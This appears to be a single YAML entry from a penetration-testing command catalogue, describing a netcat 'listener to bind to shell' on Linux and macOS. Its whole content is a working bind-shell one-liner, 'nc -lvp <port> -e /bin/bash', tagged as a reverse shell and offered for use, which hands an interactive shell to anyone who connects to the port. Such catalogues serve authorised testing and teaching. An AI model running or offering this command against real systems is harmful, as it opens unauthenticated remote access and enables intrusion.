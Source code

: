 ```yaml
---
description: |
  Netcat listener to bind to shell.

  Command Reference:

  	Port: port to listen on

command: |
  nc -lvp <port> -e /bin/bash
items:
  - Shell
target: |
  - Linux_target
  - MacOS_target
OS:
  - Linux
  - MacOS
environment: |
  - Local
command_types:
  - Reverse_Shell
references:

---
```

